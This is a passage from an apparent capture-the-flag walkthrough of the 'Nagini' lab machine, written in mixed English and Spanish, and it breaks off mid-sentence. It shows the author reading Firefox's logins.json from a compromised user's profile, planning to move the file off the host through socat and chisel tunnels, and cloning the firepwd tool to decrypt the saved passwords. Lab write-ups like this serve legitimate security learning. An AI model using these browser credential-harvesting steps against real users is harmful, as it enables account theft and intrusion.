 in hermoine desktop we found a critical directory called mozilla 

```bash
hermoine@Nagini:~$ ls -la
total 28
drwxr-xr-x 6 hermoine hermoine 4096 Apr  4  2021 .
drwxr-xr-x 4 root     root     4096 Apr  4  2021 ..
drwx------ 3 hermoine hermoine 4096 Apr  4  2021 .gnupg
drwx------ 5 hermoine hermoine 4096 Jun  1  2019 .mozilla
drwxr-xr-x 2 hermoine hermoine 4096 May  1 21:35 .ssh
drwxr-xr-x 2 hermoine hermoine 4096 Apr  4  2021 bin
-r--r----- 1 hermoine hermoine   75 Apr  4  2021 horcrux2.txt
```
let's try to get the passwords of .mozilla because sometimes users save their passwords in that directory 
```bash
hermoine@Nagini:~/.mozilla/firefox/g2mhbq0o.default$ ls
AlternateServices.txt	     blocklist.xml		containers.json        extension-preferences.json  gmp		      logins.json	  prefs.js		 sessionCheckpoints.json	     times.json
ClientAuthRememberList.txt    bookmarkbackups		content-prefs.sqlite   extensions		  gmp-gmpopenh264     minidumps	  protections.sqlite	 sessionstore.jsonlz4		     weave
SecurityPreloadState.txt      broadcast-listeners.json	cookies.sqlite	      extensions.json		  handlers.json       permissions.sqlite  saved-telemetry-pings  shield-preference-experiments.json  webappsstore.sqlite
SiteSecurityServiceState.txt  cert9.db			crashes		      favicons.sqlite		  key4.db	      pkcs11.txt	  search.json.mozlz4	 shield-recipe-client.json	     xulstore.json
addonStartup.json.lz4	     cert_override.txt		datareporting	      features			  lock		      places.sqlite	  security_state	 storage
addons.json		     compatibility.ini		enumerate_devices.txt  formhistory.sqlite	  logins-backup.json  pluginreg.dat	  serviceworker.txt	 storage.sqlite
hermoine@Nagini:~/.mozilla/firefox/g2mhbq0o.default$ cat logins.json 
{"nextId":5,"logins":[{"id":4,"hostname":"http://nagini.hogwarts","httpRealm":null,"formSubmitURL":"","usernameField":"","passwordField":"","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECNjdCM6xwGZvBAia4NxciV72TQ==","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECAGAbZHd/uQkBBD9Ftg4gxw85Lco5YQ8g1wt","guid":"{b89776a4-7e8f-472d-9bcf-b06ec071912f}","encType":1,"timeCreated":1617516357729,"timeLastUsed":1617516357729,"timePasswordChanged":1617516357729,"timesUsed":1}],"version":3,"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{}}hermoine@Nagini:~/.mozilla/firefox/g2mhbq0o.default$ 
```
and seems to be encrypted so one tool that we can use to decrypt them is called de firepwd or firefoxdecript 

to visualize them we have to bring it to our personal desktop using socat + python3 because from my personal desktop we can not reach 10.10.0.137 we are reaching because of the proxychains + chisel so 

first of all let's install firepwd to decrypt that password

```bash
❯ git clone https://github.com/lclevy/firepwd
Clonando en 'firepwd'...
remote: Enumerating objects: 88, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 88 (delta 2), reused 3 (delta 0), pack-reused 80
Recibiendo objetos: 100% (88/88), 239.08 KiB | 724.00 KiB/s, listo.
Resolviendo deltas: 100% (41/41), listo.
```
if you have this problem 
